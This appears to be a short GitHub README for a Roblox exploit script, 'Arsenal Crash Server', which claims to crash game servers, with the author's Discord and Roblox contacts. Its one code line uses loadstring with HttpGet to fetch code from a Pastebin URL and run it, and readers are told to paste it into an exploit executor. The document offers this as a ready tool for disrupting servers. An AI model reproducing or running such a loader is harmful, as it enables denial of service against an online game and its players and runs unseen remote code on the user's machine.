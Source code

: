 # Arsenal Crash Server

## About

There is not much to say about this script. You execute it and it crashes the server. Works on all exploits.

### Script

Load the script by using the code below or by copying it from [here](https://github.com/UbicastDev/Arsenal-Crash-Server/blob/main/Arsenal%20Crash%20Server).
```lua
loadstring(game:HttpGet("https://pastebin.com/raw/i2ZgtVu5"))()
```

## Contact information

- Discord : [Aleksandar](https://discord.com/users/611111398818316309)
- ROBLOX : [Ubicast](https://www.roblox.com/users/330279990/profile)
